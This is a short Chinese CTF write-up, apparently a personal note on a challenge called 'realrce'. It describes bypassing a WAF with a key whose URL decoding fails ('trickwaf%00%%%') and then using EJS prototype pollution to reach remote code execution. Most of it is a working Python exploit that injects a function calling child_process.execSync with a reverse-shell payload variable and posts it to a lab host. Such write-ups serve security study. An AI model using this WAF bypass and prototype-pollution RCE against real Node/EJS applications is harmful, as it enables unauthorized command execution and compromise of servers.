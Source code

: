 # realrce
	- 思路
		- 让WAF产生错误而绕过WAF，并使用ejs原型链污染实现RCE
	- 绕过WAF
		- 看到WAF会对url解码，在解码失败时直接返回false
		- 这就可以使用`"trickwaf%00%%%"`让WAF在urldecode时产生错误，从而使其返回False, 实现RCE
	- EJS原型链污染
		- [[CTFWEB/JS/EJS的原型链污染]]直接打
	- exp
		- ```python
		  ejs_escape = """\
		  function escapeXMLToString() {
		    return Function.prototype.toString.call(this) + ';\\n' + escapeFuncStr;
		  }
		  console.log('114514ejs');
		  process.mainModule.require('child_process').execSync(CMD);
		  \
		  """.replace("CMD", repr(reverse_shell_payload))
		  
		  url = "http://f63b9588-d130-496d-ae65-b4578c85ca39.node4.buuoj.cn:81/"
		  r = base_post(url, json = {
		      "msg": {
		          "__proto__": {
		              "settings": {
		                  "view options": {
		                      "client": "1",
		                      "escape": ejs_escape,
		                  }
		              }
		          },
		          "trickwaf%00%%%": 114514
		      }
		  })
		  print(r.text)
		  
		  ```